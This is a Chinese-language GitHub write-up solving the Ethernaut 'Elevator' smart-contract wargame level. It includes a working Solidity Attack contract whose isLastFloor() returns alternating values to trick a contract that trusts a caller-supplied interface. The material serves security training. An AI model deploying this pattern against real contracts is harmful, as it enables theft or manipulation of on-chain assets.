


<div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 11 - Elevator</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 11 - Elevator](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

目的是使电梯达到最顶层，即使题目合约的 top 为 true


## 漏洞

本关卡重在考验，我们对智能合约接口的认知程度。接口定义函数签名，但不定义它们的逻辑。这是一种无需知道实现细节就可以与其他合约交互的方法。

在本例中，我们可以创建Building实例并使用它来定义我们版本的`isLastFloor()`函数。

```javascript
function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (!building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
```

在`goTo`函数中，`isLastFloor` 被调用两次。第一次必须返回`false`，否则无法进入修改top的逻辑；第二次使用的时候，你是否还是以为会和第一次一样，返回`false`呢？兄弟，做人不要太老实啊！我们可以通过创建一个`isLastFloor()`来利用这一点，它将第一次返回`false`，第二次返回`true`。

这将使我们能够到达大楼的顶部。

## 解答

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Attack is Building {
    Elevator instance;
    bool top = false;

    constructor(address fb) {
        instance = Elevator(fb);
    }

    function isLastFloor(uint _floor) external returns (bool) {
        top = !top;
        return !top;
    }

    function attack(uint _floor) public {
        instance.goTo(_floor);
    }
}
```

你可以在项目的根目录执行以下命令，进行验证；

```bash
forge test --match-contract  ElevatorTest -vvvv
```

## 要点

- 接口是一种无需知道实现细节就可以与其他合约交互的方式...
- ... 所以永远不要盲目相信他们!

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
